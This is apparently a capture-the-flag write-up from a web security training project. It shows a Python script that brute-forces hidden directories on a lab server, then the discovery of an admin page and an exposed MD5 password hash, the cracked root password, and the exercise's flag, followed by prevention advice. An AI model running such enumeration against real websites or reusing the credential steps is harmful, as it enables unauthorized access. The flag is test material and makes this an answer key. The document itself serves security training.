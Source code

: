 # URL_BRUTE_FORCING

## 🏴 Flag

```
d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
```

## 📌 Extract

The goal of this scrapping is to find hidden directories of the website, with a .txt containing a lot of directories name.

```python
def scrapper(url: str, dict: str):
	try:
		if not url.endswith("/"):
			url += '/'
		if not url.startswith("http://"):
			url = "http://" + url
		l = []
		with open(dict) as suffixes:
			for word in suffixes:
				if "\n" in word:
					word = word[0:-1]
				res = requests.get(url + word)
				if res.status_code == 200 and "404" not in res.text:
					print("Url Found :", url + word)
					l.append(url+word)
			print(l)
	except Exception as e:
		print(e)
		print(l)
```

Url Found : http://10.11.248.209/admin
Url Found : http://10.11.248.209/whatever

With those two URLs, we can access to the whatever directory which has a file in it. We download it and this is its content:

root: 437394baff5aa33daa618be47b75cb49

We pass the password into a md5 reverse hash et we got : qwerty123@

We can connect has an admin with root as username and qwerty123@ as a password.

And we get the flag.

## **🎯 Use**

This vulnerability involves exploiting hidden or unprotected directories on a website to gain unauthorized access to sensitive information or functionality. Without proper security measures, attackers can:

- **Discover hidden directories** containing sensitive files or data.
- **Access restricted areas** of the website, such as admin panels.
- **Retrieve credentials or configuration files** that can be used for further exploitation.
- **Bypass security mechanisms** by finding and exploiting unprotected resources.

## **🔒 Prevention**

1. **Directory Listing Prevention:** Disable directory listing on the server to prevent exposure of directory contents.
2. **Access Controls:** Implement strict access controls to restrict access to sensitive directories.
3. **Monitor and Log:** Regularly monitor and log access attempts to detect and respond to unauthorized access.
4. **Use Robots.txt Wisely:** Avoid listing sensitive directories in robots.txt, as this can inadvertently expose them.
5. **Regular Audits:** Conduct regular security audits to identify and secure hidden or unprotected directories.

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)